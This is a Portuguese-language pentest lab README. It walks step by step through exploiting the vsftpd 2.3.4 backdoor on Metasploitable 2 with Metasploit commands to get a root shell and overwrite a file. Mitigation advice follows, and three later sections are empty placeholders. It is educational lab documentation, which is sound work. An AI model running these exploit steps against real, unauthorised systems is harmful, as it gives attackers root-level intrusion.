





<a name="topo"></a>

🛡️ ***Técnicas de Exploração de Vulnerabilidades***

Este repositório reúne uma série de laboratórios práticos focados em Segurança Ofensiva e Pentest. O objetivo é documentar o ciclo completo de exploração: do reconhecimento à pós-exploração, analisando falhas críticas em diferentes protocolos e sistemas.


## 📑 Sumário de Explorações
1. [Exploração de Backdoor (VSFTPD v2.3.4)](#1-exploração-de-backdoor-vsftpd-v234)
2. [Negação de Serviço - DoS](#2-negação-de-serviço---dos)
3. [Exploração de Falha em SSH](#3-exploração-de-falha-em-ssh)
4. [Adicionando Backdoor em um Executável](#4-adicionando-backdoor-em-um-executável)

---

### 1. Exploração de Backdoor (VSFTPD v2.3.4)

Aqui explorei uma vulnerabilidade histórica no serviço de FTP de um servidor Linux (Metasploitable 2), utilizando o **Metasploit** Framework no *Kali Linux*.

📝 **Descrição Técnica:**

A versão 2.3.4 do vsftpd continha uma vulnerabilidade de *backdoor* (porta dos fundos) que permitia a execução remota de comandos com privilégios de root. O ataque consiste em disparar uma sequência específica de caracteres que abre uma porta de escuta para acesso direto à *shell* do sistema.


🛠️ Tecnologias e Ferramentas

    Atacante: Kali Linux

    Alvo: Metasploitable 2

    Framework: Metasploit (msfconsole)

    Módulo: exploit/unix/ftp/vsftpd_234_backdoor

    Carga Útil (Payload): payload/cmd/unix/interact
    

# 🚀 Passo a Passo da Execução:

# 1.1- Reconhecimento e Pesquisa:

Iniciei o Metasploit e pesquisei pelo módulo específico para a versão do serviço FTP identificada na fase de enumeração.   
```Bash
msfconsole
search vsftpd
```

 Etapa 1: msfconsole | Etapa 2: search vsftpd |
|:---:|:---:|
| <br><sup>Terminal com comando *msfconsole*.</sup> | <br><sup>Terminal com comando *search vsftpd*.</sup> |

# 1.2- Configuração do Módulo:

Selecionei o exploit e configurei o alvo (RHOSTS) com o endereço IP da máquina vulnerável.
```Bash
use exploit/unix/ftp/vsftpd_234_backdoor
set rhosts [ip_maquina_alvo]
set payload payload/cmd/unix/interact
```
Etapa 3: Exploit | Etapa 4: payload |
|:---:|:---:|
| <br><sup>Terminal com comando *exploit*.</sup> | <br><sup>Terminal com comando *payload*.</sup> |

# 1.3- Exploração e Ganho de Acesso

Ao executar o comando **exploit**, o *framework* identificou o banner vulnerável, disparou o gatilho do backdoor e estabeleceu uma conexão reversa estável.
```Bash
exploit
```

Etapa 5: Exploit | 
|:---:|
| <br><sup>Terminal com comando *exploit*.</sup> |

**Resultado:** Uma sessão de comando foi aberta com privilégios de UID: 0 (root).

# 1.4- Pós-Exploração e Prova de Conceito (PoC)

Para demonstrar o controle total sobre o sistema, naveguei pelos diretórios e modifiquei um arquivo *.txt* no servidor alvo.
```Bash
ls (visualizei os arquivos e selecionei o alvo)
echo "Seu pc foi hackeado!!!!!" > flag.txt 
cat flag.txt
```
Etapa 5: Prova | 
|:---:|
| <br><sup>Terminal com mensagem final.</sup> |

🔒 **Medidas de Mitigação:**

    Atualização de Software: A principal defesa contra este ataque é a atualização para uma versão estável e segura do vsftpd (superior à 2.3.4).

    Hardening de Serviços: Desativar banners de versão para dificultar o reconhecimento por parte de atacantes.

    Firewall: Bloquear portas não essenciais.

[↑ Voltar ao topo](#topo)

---

### 2. Negação de Serviço - DoS
texto aqui


[↑ Voltar ao topo](#topo)

---

### 3. Exploração de Falha em SSH
texto aqui


[↑ Voltar ao topo](#topo)

---

### 4. Adicionando Backdoor em um Executável
texto aqui

[↑ Voltar ao topo](#topo)